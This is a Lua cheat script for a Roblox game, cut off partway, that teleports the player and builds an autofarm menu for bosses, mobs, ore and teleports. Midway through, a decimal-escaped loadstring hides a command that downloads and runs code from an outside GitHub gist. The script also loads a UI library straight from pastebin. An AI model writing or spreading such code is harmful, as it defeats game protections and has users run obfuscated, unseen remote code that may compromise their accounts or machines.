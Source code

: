 game.StarterGui:SetCore("SendNotification", {
    Title = "Speed638"; 
    Text = "Successfully Executed!"; 
    Icon = "http://www.roblox.com/asset/?id=9680636205"; 
    Duration = 5;
    Callback = bindableFunction;
    Button1 = "Like";  
    Button2 = "Dislike";
})

wait(2)
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(701, 196, -211)
wait(2)
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(1187, 379, 110)
wait(2)
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\103\105\115\116\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\109\101\111\122\111\110\101\89\84\47\98\102\48\51\55\100\102\102\57\102\48\97\55\48\48\49\55\51\48\52\100\100\100\54\55\102\100\99\100\51\55\48\47\114\97\119\47\101\49\52\101\55\52\102\52\50\53\98\48\54\48\100\102\53\50\51\51\52\51\99\102\51\48\98\55\56\55\48\55\52\101\98\51\99\53\100\50\47\97\114\99\101\117\115\37\50\53\50\48\120\37\50\53\50\48\102\108\121\37\50\53\50\48\50\37\50\53\50\48\111\98\102\108\117\99\97\116\111\114\39\41\44\116\114\117\101\41\41\40\41\10\10")()

game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(1495, 338, -699)
wait(3)
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(1021, 295, -1771)


local vermLib = loadstring(game:HttpGet("https://pastebin.com/raw/ZHTSgiQF"))()

local window = vermLib:CreateWindow()
local main = window:CreateTab("main", "Bosses", "") -- framename, threadname, author
local Mobs = window:CreateTab("Mobs", "mobs", "")
local Ore = window:CreateTab("Ore", "Ore", "") -- framename, threadname, author
local Farming = window:CreateTab("Farming", "Farming", "") -- framename, threadname, author
local SpiritFarm = window:CreateTab("SpiritFarm", "SpiritFarm", "") -- framename, threadname, author
local Teleports = window:CreateTab("Teleports", "Teleports", "") -- framename, threadname, author
local Mods = window:CreateTab("Mods", "Mods", "") -- framename, threadname, author
local BossBookSpells = window:CreateTab("BossBookSpells", "BossBookSpells", "") -- framename, threadname, author

main:CreateToggle("Slimeking", function(state) -- togglename, callback
getgenv().autofarm = state
while true do
if not getgenv().autofarm then return end
while wait(0.3) do
    function teleportto(placeCFrame)
    local plr = game.Players.LocalPlayer;
    if plr.Character then
        plr.Character.HumanoidRootPart.CFrame = placeCFrame + Vector3.new(0,-8,0)
         end
end
